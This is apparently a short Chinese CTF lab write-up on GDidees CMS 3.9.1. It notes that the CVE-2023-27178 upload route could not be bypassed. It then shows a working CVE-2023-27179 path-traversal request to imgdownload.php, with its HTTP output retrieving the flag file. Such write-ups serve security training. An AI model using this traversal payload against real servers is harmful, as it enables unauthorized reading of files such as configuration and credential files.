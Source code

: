 # CVE-2023-27178

:::info

Tags

- GDidees CMS

官方数据库记录

> GDidees CMS 3.9.1 上传功能中存在任意文件上传漏洞，允许攻击者通过精心设计的文件执行任意代码。

:::

按照网上资料，漏洞存在于 `/_admin/ckeditor/plugins/ckfinder/` 路由的文件上传功能，但是无法绕过

可以尝试直接进行`CVE-2023-27179`的攻击：任意文件读取

```bash
root@jmt-projekt:~# http "http://eci-2ze4pnf4or9co59ohuov.cloudeci1.ichunqiu.com/_admin/imgdownload.php?filename=../../../../../../flag"
HTTP/1.1 200 OK
Cache-Control: must-revalidate, post-check=0, pre-check=0, public
Connection: keep-alive
Content-Disposition: attachment; filename="flag.png"
Content-Length: 42
Content-Transfer-Encoding: $type\n
Content-Type: application/force-download
Date: Tue, 23 Jul 2024 15:44:22 GMT
Expires: 0
Pragma: no-cache
X-Powered-By: PHP/7.3.33

flag{a911e14f-699c-4bc3-96a8-87b5e6d36608}
```
